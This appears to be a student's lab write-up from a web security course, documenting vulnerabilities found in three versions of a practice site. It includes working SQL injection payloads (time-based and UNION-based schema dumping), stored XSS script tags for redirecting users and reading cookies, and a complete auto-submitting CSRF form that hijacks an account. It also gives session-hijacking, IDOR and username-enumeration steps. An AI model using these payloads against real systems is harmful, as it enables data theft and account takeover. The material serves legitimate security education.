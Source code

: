 # Week 9 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: Session Hijacking/Fixation
Steps to recreate:
  1. Log in on one browser and use the hacktools/change_session_id.php script to get your session ID.
  2. On a different browser, change your session ID to match the previous one you recived using hacktools/change_sessions_id.php.
  3. You can now log in to the same account on the new browser without having to enter a password since it has the same session id as the other browser.
  
![](SessionHijacking.gif)

Vulnerability #2: SQL Injection (SQLi)

Steps to recreate:
  1. Visit the page of any sales person.
  2. In the url, instead of ```id=1```, write ```id=' OR SLEEP(5)=0--'```, in the sleep() function you can change the seconds to chage the loading time. 
  3. This causes the page to continue loading for the specified amount of time in seconds. 
  
![](SQLinj.gif)


## Green

Vulnerability #1: Username Enumeration

Steps to recreate:
  1. Trying to log in with a username that exists results in bold text saying failed to log in. The html class is listed as "failure".
  2. Trying to log in with a username that doesn't exist results in a text saying failed to log in that is not bolded. The html class is also differenct and listed as "failed".
  
  3. The green developer made different classes for a username that does exist and a username that doesn't exist. The other two developers use the same "failure" class for both cases. 
  
  ![](UserEnum.gif)
  
Vulnerability #2:Cross-Site Scripting (XSS)

Steps to recreate:
  1. Go to the contact tab and fill out the form with the following inside the feedback section:
  ```<script>alert('Owen found the XSS');</script>```
  2. Now when a user logs in and checks the feedback tab, the script will be ran and there will be a message with the alert. 
  

![](XSS.gif)

## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)

Steps to recreate:
  1. You can view any salesperson's page by changing the value of the id in the url

  2. ID 10 or 11 shouldn't be accessible by a user that is not logged in. When trying to check ID number 10 or 11 for other colors the pages redirect to the main page.
  
  ![](IDOR.gif)

Vulnerability #2:Cross-Site Request Forgery (CSRF)

Steps to recreate:
  1. Logging in and running the html file causes the users name to be changed according to the info entered in the html file. 
  2. For example, if an authenticated user loaded a page with the following sample HTML, the information for salesperson with id 1 will change to whatever is in the html file without the action being visible to the user:
  
  ```
<iframe src="https://giphy.com/embed/de5bARu0SsXiU" width="0" height="0" frameBorder="0" id="gif" name="gif"></iframe>

<form action="https://104.198.208.81/red/public/staff/users/edit.php?id=1" method="post" id="leform" target="gif">
    <input name="csrf_token" value="ae0c79a6ab8d30d1c0c147699df11fe8" type="hidden">
    <input name="first_name" value="Owen" type="hidden">
    <input name="last_name" value="Ah" type="hidden">
    <input name="username" value="YouHaveBeenHACKED" type="hidden">
    <input name="email" value="hijacked@email.com" type="hidden">
    <input name="previous_password" value="" type="hidden">
    <input name="password" value="" type="hidden">
    <input name="confirm_password" value="" type="hidden">
  </form>

<script>document.getElementById("leform").submit();</script>

<iframe src="https://giphy.com/embed/de5bARu0SsXiU" width="480" height="253" frameBorder="0" class="giphy-embed" allowFullScreen id="gif
" name="gif"></iframe>
```
  
  ![](CSRF.gif)
  
## Optional
  
**Bonus Objective 1: Build on Objective #3 (SQL Injection). Experiment to see what other kinds of information you can get the database to reveal.**
  
 Steps to recreate:
    1. We took advatage of blue and injected the following SQL query in the url to get the names of tables and columns:
    
    ```
    ' AND 0 UNION SELECT 1,2,3,4,GROUP_CONCAT(table_name,0x2e,column_name,"\n") FROM information_schema.columns WHERE table_schema=database(); -- -
    ```
    
   ![](Bonus-SQLi.gif)
   
**Bonus Objective 2: Build on Objective #4 (Cross-Site Scripting). Experiment to see if you can use XSS to: a) direct the user to a new URL, b) read cookie data, c) set cookie data.**
 
 Steps to recreate:
    1. I was able to insert ```<script>document.location="https://www.google.com"</script>``` into the feedback page form to redirect the user to a new URL.
    2. I am pretty sure that inserting ```<script>document.cookie = "username=Jonny";</script>``` into the form would set cookie data and inserting ```<script>alert(document.cookie);</script>``` into the form would read cookie data. However, I was unable to test the XSS because I wasn't able to reset the feedback page therefore the URL redirection is executed before the cookie script can run.
    
  ![](Bonus-1.gif)
  
## Notes

Describe any challenges encountered while doing the work?
This was a bit tedious, I had hard time with writing a html form for cross-site scripting forgery. In general, it took longer than previous weeks as I had to check different targets for different vulnerabilities. Furthermore, not being able to reset the feedback didn't allow me to execute few of the other scripts I wanted to run.  
